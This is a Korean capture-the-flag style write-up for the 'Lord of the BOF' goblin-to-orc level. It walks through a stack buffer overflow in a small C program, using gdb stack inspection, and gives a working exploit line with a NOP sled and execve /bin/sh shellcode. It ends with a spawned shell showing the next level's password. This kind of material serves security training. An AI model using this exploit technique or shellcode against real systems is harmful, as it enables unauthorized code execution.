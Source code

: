 Goblin -> Orc

**Orc.c**
```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - orc
        - egghunter
*/

#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
	char buffer[40];
	int i;

	if(argc < 2){
		printf("argv error\n");
		exit(0);
	}

	// egghunter 
	for(i=0; environ[i]; i++)
		memset(environ[i], 0, strlen(environ[i]));

	if(argv[1][47] != '\xbf')
	{
		printf("stack is still your friend.\n");
		exit(0);
	}

	strcpy(buffer, argv[1]); 
	printf("%s\n", buffer);
}
```
이번에는 egghunter 라는 것이 추가 되었습니다. 바로 환경변수를 전부 초기화 시키는 것 입니다. 또한 첫번째 인자값의 47 즉 48번째 부분은 '\xbf'이어야 합니다.<br>

이번에는 환경변수 대신에 argv2의 공간을 이용해서 공격을 하도록 하겠습니다.

gdb로 디스어셈해보겠습니다.
```
0x8048500 <main>:	push   %ebp
0x8048501 <main+1>:	mov    %ebp,%esp
0x8048503 <main+3>:	sub    %esp,44
~~~생략 ~~~
0x80485b9 <main+185>:	lea    %eax,[%ebp-40]
0x80485bc <main+188>:	push   %eax
0x80485bd <main+189>:	call   0x8048440 <strcpy>
0x80485c2 <main+194>:	add    %esp,8
0x80485c5 <main+197>:	lea    %eax,[%ebp-40]
0x80485c8 <main+200>:	push   %eax
0x80485c9 <main+201>:	push   0x8048659
0x80485ce <main+206>:	call   0x8048410 <printf>
0x80485d3 <main+211>:	add    %esp,8
0x80485d6 <main+214>:	leave  
0x80485d7 <main+215>:	ret    
```
buffer의 크기가 40이라는 것을 알 수 있습니다.<br>
>>buffer[40] + SFP[4] + ret[4]<br>

이제 break 포인트를 오버플로가 일어나는 strcpy 함수부분에 걸겠습니다.
```
(gdb) b *main+189
Breakpoint 1 at 0x80485bd
(gdb) r `python -c 'print "\xbf"*48'` `python -c 'print "\x"90*100'`
```
그 후 bf를 48개 넣어서 조건을 만족시키고 argv2에 \x90을 100개 만큼 넣어 줍니다.
```
(gdb) x/100x $esp
~~~생략~~~
0xbffffb84:	0x00000000	0x00000000	0x00000000	0x00000000
0xbffffb94:	0x36690000	0x2f003638	0x656d6f68	0x626f672f
0xbffffba4:	0x2f6e696c	0x706d6574	0x63726f2f	0xbfbfbf00
0xbffffbb4:	0xbfbfbfbf	0xbfbfbfbf	0xbfbfbfbf	0xbfbfbfbf
0xbffffbc4:	0xbfbfbfbf	0xbfbfbfbf	0xbfbfbfbf	0xbfbfbfbf
0xbffffbd4:	0xbfbfbfbf	0xbfbfbfbf	0xbfbfbfbf	0x909000bf
0xbffffbe4:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffffbf4:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffffc04:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffffc14:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffffc24:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffffc34:	0x90909090	0x90909090	0x90909090	0x90909090
~~~생략~~~
```
'\xbf'와 '\x90'가 성공적으로 들어간 것을 볼 수 있습니다. 저는 공격할 때, 0xbffffbf4 이 부분을 사용하도록 하겠습니다.<br>
ret부분에 저 주소를 넣어주면 조건도 만족시키고 공격을 할 수 있습니다.

```
[goblin@localhost goblin]$ ./orc `python -c 'print "A"*44 + "\xf4\xfb\xff\xbf"'` `python -c 'print "\x90"*100 + "\x31\xc0\xb0\x31\xcd\x80\x89\xc1\x89\xc3\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA񼿿
bash$ my-pass
euid = 504
cantata
```
